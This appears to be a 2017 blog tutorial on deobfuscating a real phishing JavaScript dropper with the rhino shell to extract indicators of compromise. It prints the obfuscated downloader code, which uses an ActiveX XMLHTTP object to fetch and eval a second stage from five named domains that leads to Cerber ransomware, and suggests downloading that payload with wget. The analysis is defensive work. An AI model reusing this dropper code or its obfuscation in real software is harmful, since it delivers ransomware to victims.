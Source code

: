 ```yaml
---
layout: post
title:  "Simple Js deobfuscation 1"
date:   2017-08-28 12:00:00 +0700
categories: Javascript deobfuscation
---
```


A first example of javascript deofuscation for IOC extraction.

## First hand on javascript deobfuscation
For this excercice we will use a really simple real javascript that was used on mass phishing campaign to drop payload into the target's computer.
You can find the malicious javascript here :

On hybrid-analysis :

**hash** : 0413a0c095230c5a1d9fd24c5526e381

(You need to have a free account on hybrid-analysis to be able to download sample) This website is really interessting if you are looking for sample to analyse :)
[Link to the Hybrid-analysis sample](https://www.hybrid-analysis.com/download-sample/90d8e7b7149fff458d5ce7adc173dcf323788460da33247be9718f8930edc8a3?environmentId=100)

### Take care ! This sample is real and can be dangerous if you manipulate it in a real environment :)
I'm going to do this analysis on a linux system (SIFT workstation).

I'have installed rhino a little cli javascript shell. Really useful :)

But you can do big part of this exercice with Firefox using the console available when you type F12.
First check the file type :
{% highlight shell %}
file 0413a0c095230c5a1d9fd24c5526e381 0413a0c095230c5a1d9fd24c5526e381: ASCII text, with CRLF line terminators
{% endhighlight %}
... Nothing much, ok it's an ASCII text file we are safe to open it into any text editor (VIm, emacs, leafpad, nano ...).
Just by opening you see that the obfuscation used here is not advanced :
{% highlight javascript %}
var sder = "P"; var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
{% endhighlight %}

 We can see severals variables declaration, some of them are really self explanatory

* x : variable contains some domain/subdomain name. You already find your IOC ;)

* t4 : contains "http" must be used to declare the url where is stored the payload :)

* g2 : is pretty easy to understand to, just a concatenation of strings and another variable.

* pi6dnz : is more difficult but when you look at the type of character used you can see that they are hexadecimal value. If you look at your ascii table ...
{% highlight shell %}
man ascii
{% endhighlight %}

You can see that the hexadecimal value 70 = p 65 = e 6E = n
...p e n... ok it might be used somewhere else later ..
* m : this one is the hardest to understand, we will see it later.

Ok let's use rhino on this small parts.

If you don't have rhino you can install it on a ubuntu based distro just by typing :

{% highlight shell %}
apt-get install rhino
{% endhighlight %}

Then just start it :

{% highlight javascript %}
rhino js >
{% endhighlight %}

Just take the variable you want and copy paste it.
I'm going to use t4 and pi6dnz and print them using the print(); function (Simple :p)

{% highlight javascript %}
js> var pi6dnz = "\x70"+"\x65\x6E";
js> var t4 = "ht"+"tp";
js> print(t4);
http
js> print(pi6dnz);
pen
{% endhighlight %}

Ok i think you understand the concept now.
Let's continue with the other part of the js

{% highlight javascript %}
for (var i=0; i<x.length; i++)
{
var vDJmB = function(){ return new ActiveXObject(g2); }(); var e = vDJmB; try {
var raspbna2s=["\x6F"+pi6dnz]; e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false); e.send();
}
{% endhighlight %}

First we enter in a for loop with i incrementing.

Then a function declaration creating an ActiveXObject with the parameter g2. If you played a little bit with rhino you will find that :

{% highlight javascript %}
js> print(g2); Msxml2.XMLHTTP
{% endhighlight %}

Just after it, we can see the creation of an object called e.
{% highlight javascript %}
var e = vDJmB;
{% endhighlight %}
So e is a ActiveXObject.


Here we enter in a try and then a new declaration of variable :
{% highlight javascript %}
var raspbna2s=["\x6F"+pi6dnz];
{% endhighlight %}

We find pi6dnz back, 6F is the ascii for o so o + pen = .... ? ;)

And then the big query :

{% highlight javascript %}
e[raspbna2s[0]](""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?"+m,false);
{% endhighlight %}

If you try to print this with rhino here there will be 2 little trick:
First you need to remove the e because it's a object. You also need to change i to the number 0 (it's related to the domain name list that we saw earlier. It's an array so incrementing i will change the domain name requested.

And there is also the false at the end to remove.


If you go to msdn.microsoft.com about the function used here you will find your scheme
{% highlight javascript %}
var xmlhttp = new ActiveXObject("Msxml2.XMLHTTP.3.0"); xmlhttp.open("GET","http://localhost/books.xml", false);
xmlhttp.send();
{% endhighlight %}

In rhino add all variable or create a little js script :

{% highlight javascript %}
var sder = "P";
var g2 = "M"+"sxml2.XMLHT"+""+"T"+""+sder;
var m = "LRAf7gyufKYR4MwFaLGaGyCAIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k";
var x = new Array("residences.springcreekranch.org", "fitnessdigezt.com", "ronniespersonaltouchjanitorialservice.com", "constructivemindfulness.com", "rorokindergarten.ro");
var t4 = "ht"+"tp";
var pi6dnz = "\x70"+"\x65\x6E";
var zaima = "qwadro";
var ter = "/";
var raspbna2s=["\x6F"+pi6dnz];
var i = 0;
print(raspbna2s[0] + ""+"G"+""+"E"+""+"T", t4 + ":"+ter+ter+x[i]+"/c"+"o"+"u"+"nter/?" + m);
{% endhighlight %}

Tada, you will see the full url requested by the javascript.

After this the script try to receive what was requested.

You will need to download with a wget the malicious script to continue :)

With a simple wget you can download the payload.

I you open it with vim you can see we have more obfuscated js.

Go back to your first js and let's look at the operation done on the answer of the server (the url that you downloaded trough wget.

{% highlight javascript %}  
reqty(e.responseText.split(m).join(zaima.substring(2,3)));
{% endhighlight %}

We can see that we have some kind of substition of the m variable and added at the end the third character of the variable zaima (that is a).

We can do the same kind of substition using vim and sed. Or any text editor that allow to replace character by other :)

So we have to replace LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k by a

{% highlight shell %}
vim JS.txt
:s/LRAf7gyufKYR4MwFaLGaGyC-AIyJR0x4H3WREwqTezLd5P35obsIzYt3pHkF6oEqDeW3A5bvDPm0e4k9RekqVS20SQTDNnIlK_k/a/g
{% endhighlight %}

You will then have a JS with lots of variable incrementation var NXmef= "...." var NXmef+="..."
Lots of stuff are added to the string.
To easilty see what is inside this long string just check a the end of the JS. change the eval(NXmef) by a simple print

{% highlight javascript %}
print(NXmef);
{% endhighlight %}

The unobfuscated Js code will then be available with new IOC (new urls used :) ).
This javascript code download a executable that is a ransomwar : cerber.
